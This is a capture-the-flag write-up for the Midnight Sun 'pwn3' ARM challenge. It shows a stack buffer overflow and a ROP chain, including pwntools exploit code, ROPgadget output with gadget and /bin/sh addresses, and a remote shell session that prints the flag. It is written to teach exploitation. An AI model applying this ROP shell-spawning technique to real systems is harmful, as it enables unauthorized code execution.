

# Pwn3 - Simple ARM pwn
This challenge comes with the binary [pwn3](https://github.com/henriknero/writeups/tree/master/pwn3/pwn3)
```
 $ file pwn3 
pwn3: ELF 32-bit LSB executable, ARM, EABI5 version 1 (GNU/Linux), statically linked, for GNU/Linux 3.2.0, BuildID[sha1]=46d0723fb9ff9add7b00860a2382f32656a04700, stripped
```
When running the binary it firstly complains that we haven't supplied the file banner.txt, so we create this. Running it again we get the following:
```
$ ./pwn3
bannertext
buffer: 
```
So we can input to a char-buff via stdin. So anyway I just started blasting
```
 $ python -c "print('a'*0x200)" | ./pwn3 
buffertext
buffer: qemu: uncaught target signal 11 (Segmentation fault) - core dumped
Segmentation fault (core dumped)
```
Okey so, pwnlib...
```
pwn template --host pwn3-01.play.midnightsunctf.se --port 10003 pwn3 > exploit
```
```python
...
io = start()
array = cyclic(0x200)
io.sendline(array)

io.interactive()

```


So we have can overwrite the pc with the bufferoverflow, neat. We also see that we have space for some ropping looking at the stack-pointer. Now we just need to find a good gadget. We likely want to find system. 

Conveniently the author uses ```system(cat banner.txt)``` to print the banner. But if this is not the case we can probably search for /bin/sh to locate the function anyways. 

So now lets just prep the registers. I use ROPgadget to find good gadgets.
```
 $ ROPgadget --binary ./pwn3 --only pop
Gadgets information
============================================================
0x0001ddc0 : pop {r0, ip, sp, pc}
0x00015524 : pop {r0, r1, ip, sp, pc}
0x00013c9c : pop {r0, r1, r2, ip, sp, pc}
0x00013080 : pop {r0, r1, r2, r3, ip, sp, pc}
0x000169c4 : pop {r0, r1, r2, r3, r5, ip, sp, pc}
0x00028d90 : pop {r0, r1, r2, r4, ip, sp, pc}
0x00024460 : pop {r0, r1, r2, r6, r7, sb, sl, fp, ip, sp, lr, pc}
0x00014470 : pop {r0, r1, r3, ip, sp, pc}
0x000288f0 : pop {r0, r1, r4, ip, sp, pc}
0x00036558 : pop {r0, r1, r5, ip, sp, pc}
0x00014ee4 : pop {r0, r2, ip, sp, pc}
0x000158b4 : pop {r0, r2, r3, ip, sp, pc}
0x00023b08 : pop {r0, r2, r3, r4, ip, sp, pc}
0x000394f8 : pop {r0, r2, r3, r7, sb, fp, ip, sp, lr, pc}
0x00021edc : pop {r0, r2, r4, r5, ip, sp, pc}
0x0002aa94 : pop {r0, r2, r5, ip, sp, pc}
0x00014c34 : pop {r0, r3, ip, sp, pc}
0x0001c59c : pop {r0, r3, r4, ip, sp, pc}
0x00011b20 : pop {r0, r3, r4, r5, ip, sp, pc}
0x000108fc : pop {r0, r3, r4, r5, r6, r7, r8, ip, lr, pc}
0x00043858 : pop {r0, r3, r5, ip, sp, pc}
0x0002c3a4 : pop {r0, r3, r6, ip, sp, pc}
0x0001e6d8 : pop {r0, r4, ip, sp, pc}
0x0001fb5c : pop {r0, r4, pc}
...

$ ROPgadget --binary ./pwn3 --string /bin/sh
Strings information
============================================================
0x00049018 : /bin/sh
```
And to find the function I just search for references to /bin/sh in ghidra. Or in this case go to the function that takes "cat banner.txt" as argument. (0x14b5c). 

```python
...
array = cyclic(cyclic_find(b'jaab')) + "0123" + p32(0x0001fb5c) + p32(0x00049018) + "1111" + p32(0x14b5d) 
io.sendline(array)
io.interactive()
```
A good thing to notice is that I'm using 0x14b5d instead of 0x14b5c. This is due to ARM instruction alignment. So if you get wierd instructions jumping somewhere, just test shifting the address a little up or down. 

Running this against the remote server we get a shell and can simply print the flag.
```
$ ./exploit 
[*] '/home/henrik/midnight2020/pwn3/pwn3'
    Arch:     arm-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x10000)
[+] Opening connection to pwn3-01.play.midnightsunctf.se on port 10003: Done
[*] Switching to interactive mode
                                                               ▄▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▄
                                                     ▄▄▄▄▄▄▄▄▄█  ▀                 ▀███
 ▄█████████▄ ▄███     ▄███ ▄███   ▄███ ▄█████████▄   ██████████         ▄   ▄    ▄    █
 ████▀▀▀████ ████     ████ █████▄ ████ ▀▀▀▀▀▀▀████   ██████████    ▄         ▄▀▀▄     █▄▀▀▄
 ████▄▄▄████ ████  ▄  ████ ███████████     ▄▄▄███▀   ▀▀▀▄▀▀▄▀▀█       ▄      █   ▀▄▄▄▄▀   █
 ██████████▀ ████▄███▄████ ████▀▀█████     ▀▀▀███▄   ███▀▄  ▀▀█              █            █
 ████▀▀▀▀▀▀  ██████▀██████ ████  ▀████ ▄▄▄▄▄▄▄████   █████▀▀▄▄█   ▄        ▄█   ▄█   ▄ ▄█  █
 ████        ████▀▀ ▀▀████ ████   ████ ██████████▀   ▀▀▀▀▀▀▀▀▀█      ▄      █ ██ ▄  ▄  ▄ ███
 ▀▀▀▀        ▀▀▀▀     ▀▀▀▀ ▀▀▀▀   ▀▀▀▀ ▀▀▀▀▀▀▀▀▀▀    ████████▄█  ▄           ▀▄  ▀▀▀▀▀▀▀ ▄▀
                                                           ▄▀ ▀█▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▀▀█▀▀▀█▀▀▀
                                                           █▄▄▀  █▄▄▀        █▄▄▀ ▀▄▄█
buffer: $ ls
banner.txt
flag
pwn3
redir.sh
$ cat flag
midnight{the_pwn_knight_16435f41118a38dd}
```
